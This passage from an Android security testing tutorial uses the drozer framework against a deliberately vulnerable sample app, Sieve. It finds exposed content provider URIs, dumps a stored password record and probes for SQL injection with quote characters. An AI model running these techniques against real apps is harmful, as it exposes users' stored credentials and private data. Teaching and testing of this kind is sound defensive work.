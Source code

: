 We can reconstruct part of the content URIs to access the DBContentProvider, because we know that they must begin with “content://”. However, we cannot know all of the path components that will be accepted by the provider. 

Fortunately, Android apps tend to give away hints about the content URIs. For instance, in the output of the `app.provider.info` command we see that “/Keys” probably exists as a path, although we cannot query it without the READ_KEYS permission.

drozer provides a scanner module that brings together various ways to guess paths and divine a list of accessible content URIs:

```
dz> run scanner.provider.finduris -a com.mwr.example.sieve 
Scanning com.mwr.example.sieve...
Unable to Query content://com.mwr.
example.sieve.DBContentProvider/
... 
Unable to Query content://com.mwr.example.sieve.DBContentProvider/Keys 
Accessible content URIs:
content://com.mwr.example.sieve.DBContentProvider/Keys/
content://com.mwr.example.sieve.DBContentProvider/Passwords
content://com.mwr.example.sieve.DBContentProvider/Passwords/
```

We can now use other drozer modules to retrieve information from those content URIs, or even modify the data 
in the database:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --vertical
_id: 1
service: Email
username: incognitoguy50
password: PSFjqXIMVa5NJFudgDuuLVgJYFD+8w== (Base64
-
encoded)
email: incognitoguy50@gmail.com
```

Once again we have defeated the app’s security and retrieved a list of usernames from the app. In this example, drozer has decided to base64 encode the password. This indicates that field contains a binary blob that otherwise could not be represented in the console.

#### Database-backed Content Providers (SQL Injection) 

The Android platform promotes the use of SQLite databases for storing user data. Since these databases use SQL, it should come as no surprise that they can be vulnerable to SQL injection. It is simple to test for SQL injection by manipulating the projection and selection fields that are passed to the content provider:

```
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --projection "'" 
unrecognized token: "' FROM Passwords" (code 1): , while compiling: SELECT ' FROM Passwords
dz> run app.provider.query content://com.mwr.example.sieve.DBContentProvider/Passwords/ --selection "'" 
unrecognized token: "')" (code 1): , while compiling: SELECT * FROM Passwords WHERE (')
```
